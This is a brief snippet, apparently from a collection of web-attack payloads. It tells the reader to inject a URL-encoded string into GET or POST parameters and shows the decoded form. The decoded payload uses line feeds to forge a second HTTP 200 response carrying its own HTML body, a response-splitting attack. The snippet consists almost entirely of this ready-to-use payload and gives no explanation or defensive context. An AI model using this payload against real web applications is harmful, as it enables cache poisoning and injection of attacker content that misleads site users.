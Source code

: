 ### Inject this string into paramet (GET/POST)
```
%0a%0a%3c%68%74%6d%6c%3e%3c%62%6f%64%79%3e%66%69%72%73%74%3c%2f%62%6f%64%79%3e%3c%2f%68%74%6d%6c%3e%0a%0a%48%54%54%50%2f%31%2e%31%20%32%30%30%20%4f%4b%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%74%65%78%74%2f%68%74%6d%6c%0a%0a%3c%68%74%6d%6c%3e%3c%62%6f%64%79%3e%73%65%63%6f%6e%64%3c%2f%62%6f%64%79%3e%3c%2f%68%74%6d%6c%3e
```

### URL decoded:
```
<html><body>first</body></html>  

HTTP/1.1 200 OK  
Content-Type: text/html  

<html><body>second</body></html>  
```


